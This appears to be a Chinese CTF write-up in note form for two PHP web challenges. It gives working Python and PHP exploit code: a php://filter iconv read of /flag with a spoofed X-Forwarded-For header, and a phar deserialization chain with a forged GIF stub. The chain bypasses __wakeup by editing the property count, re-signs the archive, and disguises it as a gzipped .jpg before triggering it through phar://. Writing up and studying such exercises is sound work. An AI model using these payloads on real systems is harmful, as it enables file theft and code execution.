 # 消失的flag
	- 使用 ((66363328-deca-4ae5-a4d2-762a1ecc9636)) 伪协议的`convert`编码格式转换功能读取flag
	- 使用header绕过IP检测
	- ```python
	  
	  r = requests.get(url, params = {
	      "file": "php://filter/convert.iconv.UCS-4.UCS-4/resource=/flag"
	  }, headers = {
	      "X-Forwarded-For": "127.0.0.1"
	  })
	  print(r.text)
	  ```
- # unserialize_web
	- 扫描看到源码`www.tar.gz`
	- 使用phar反序列化读取`/flag`，需要绕过
		- `__wakeup`
		- 关键字检测
		- 文件后缀检测
	- phar反序列化
		- 生成恶意对象放入`phar.phar`
			- ```php
			  <?php
			  //反序列化payload构造
			  class File {
			      public $val1;
			      public $val2;
			      public $val3;
			  
			      public function __construct() {
			          $this->val1 = "val1";
			          $this->val2 = "val2";
			      }
			  
			      public function __destruct() {
			          if ($this->val1 === "file" && $this->val2 === "exists") {
			              if (preg_match('/^\s*system\s*\(\s*\'cat\s+\/[^;]*\'\s*\);\s*$/', $this->val3)) {
			                  eval($this->val3);
			              } else {
			                  echo "Access Denied";
			              }
			          }
			      }
			  
			      public function __access() {
			          $Var = "Access Denied";
			          echo $Var;
			      }
			  
			      public function __wakeup() {
			          $this->val1 = "exists";
			          $this->val2 = "file";
			          echo "文件存在";
			      }
			  }
			  
			  $o = new File();
			  $o->val1='file';
			  $o->val2='exists';
			  $o->val3="system('cat /flag');";
			  //打开phar文件
			  @unlink("phar.phar");
			  $phar = new Phar("phar.phar"); //生成时后缀名必须为phar
			  $phar->startBuffering();
			  $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");
			  
			  //放入对象
			  $phar->setMetadata($o);
			  
			  //添加压缩的文件（test为其中的内容）
			  $phar->addFromString("test.txt", "test");
			  $phar->stopBuffering();
			  echo 'use phar.phar';
			  ?>
			  ```
		- 修改`phar.phar`绕过`__wakeup`
			- ```python
			  def sha1_hash(s):
			      sha1_obj = hashlib.sha1()
			      sha1_obj.update(s)
			      return sha1_obj.digest()
			  
			  with open("php_docker/phar.phar", "rb") as f:
			      content = f.read()
			      print(content)
			      content = content.replace(b'"File":3', b'"File":4')
			      content = content[:-28] + sha1_hash(content[:-28]) + content[-8:]
			      print(content)
			      with open("php_docker/modified.phar", "wb") as out:
			          out.write(content)
			  
			  ```
		- 使用`gzip -f modified.phar`压缩绕过关键字检测，得到`modified.phar.gz`，重命名为`mod3.jpg`绕过文件后缀检测并上传
	- 最后触发，拿到flag
		- ```python
		  url = "http://1c300fa3-159a-bef7-2fd1-6e7839227374b834.tq.jxsec.cn:30486/download.php"
		  
		  r = requests.post(url, data = {
		      "file": "phar://upload/mod3.jpg/test.jpg"
		  })
		  r.encoding = r.apparent_encoding
		  print(r.text)
		  ```
-